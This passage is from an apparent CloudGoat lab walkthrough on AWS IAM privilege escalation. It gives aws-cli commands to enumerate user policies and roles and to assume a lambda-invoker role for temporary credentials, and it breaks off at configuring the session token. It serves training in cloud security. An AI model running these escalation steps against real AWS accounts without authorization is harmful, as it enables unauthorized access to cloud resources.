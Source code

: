 **Let's Begin!**

![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/start_vl.png)
This is the IAM user 'bilbo' that has been created , this lists all the info about the account including access keys.

-   Configure the AWS Profile for bilbo using the following command
```
aws configure --profile bilbo
```
-   Get permissions for the ‘bilbo’ user.

```
#This command will give you the ARN & full name of you user.
aws --profile bilbo --region us-east-1 sts get-caller-identity

#This command will list the policies attached to your user.Remember to add THE NAME THAT **YOU** GET
aws --profile bilbo --region us-east-1 iam list-user-policies --user-name [your_user_name]

#This command will list all of your permissions.Once again , add the policy name and user name that is displayed in YOUR terminal!
aws --profile bilbo --region us-east-1 iam get-user-policy --user-name [your_user_name] --policy-name [your_policy_name]
```
![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/vullam1.png)

(Quick info: ARN= Amazon Resource Name , a unique identifier assigned to each resource in AWS)
-   Next we will list all roles , one of which we will be able to assume. We will then use this role for **privesc (Privilege Escalation)**.

   ```
#This command will list all the roles in your account, one of which should be assumable.Choose it and use it's details in the next step. 
aws --profile bilbo --region us-east-1 iam list-roles | grep cg-

This command will list all policies for the target role
aws --profile bilbo --region us-east-1 iam list-role-policies --role-name [cg-target-role]

This command will get you credentials for the cloudgoat role that can invoke lambdas.
aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name [whatever_you_want_here]
```
![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/vullam2.png)

-   Configure a new  AWS profile using the AWS Credentials that have now been generated on your and are appearing on your terminal.
`aws configure --profile [name_of_your_choice]`
	
	![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/assumed_role.png)



-   Manually add the  **SessionToken**.
